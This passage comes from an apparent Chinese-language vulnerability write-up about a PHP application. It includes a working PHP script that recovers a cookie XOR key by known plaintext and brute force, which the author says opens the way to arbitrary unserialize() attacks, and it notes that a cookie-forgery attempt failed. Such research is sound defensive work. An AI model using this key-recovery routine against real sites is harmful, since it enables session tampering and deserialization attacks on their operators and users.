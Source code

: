 除了sessionid的值和注册的用户数量有关，所以密钥的第32位和倒数第4位没法准确的确定外，其它都可以还原出来了。而这两位也可以根据序列化的格式进行爆破。最终就可以还原出密钥了。

还原密钥的脚本如下：

```php
function decode1($info,$key=null)
{
    if(!$key)
    $key = '1hqfx6ticwRxtfviTp940vng!yC^QK^6';
    // $info = urldecode(($info));
    $kl = strlen($key);
    $il = strlen($info);
    for($i = 0; $i < $il; $i++)
    {
        $p = $i%$kl;
        $info[$i] = chr(ord($info[$i])-ord($key[$p]));
    }
    // var_dump($info);
    $info = unserialize($info);
    return $info;
}

function get_key($cookie){
    // $info='10adc3949ba59abbe56e057f20f883e"';
    // $enc=substr($cookie,64,32);

    $key = 'a:8:{s:13:"sessionuserid";s:2:"2';
    $info=urldecode(urldecode($cookie));
    $use_info=substr($info,0,32);
    $kl = strlen($key);
    $il = strlen($use_info);
    for($i = 0; $i < $il; $i++)
    {
        $p = $i%$kl;
        $use_info[$i] = chr(ord($use_info[$i])-ord($key[$p]));
    }
    for($i=0;$i<128;$i++){
        for($j=0;$j<128;$j++){
            $use_info[31]=chr($i);
            $use_info[28]=chr($j);
            if(decode1($info,$use_info)){
                return $use_info;
            }
        }
    }
    return 'error';
}
```

还原密钥后我们就可以进行进行任意的反序列化操作了。

在这里我也想过一个问题，既然这cookie进行了这样的加密，还存储了这么多的用户信息，会不会是类似jwt的验证方式，那么有了密钥之后，我们就能对cookie进行伪造，这样是不是就能伪装管理员身份进入后台了。但是在后续的测试中，发现这个方法并行不通。
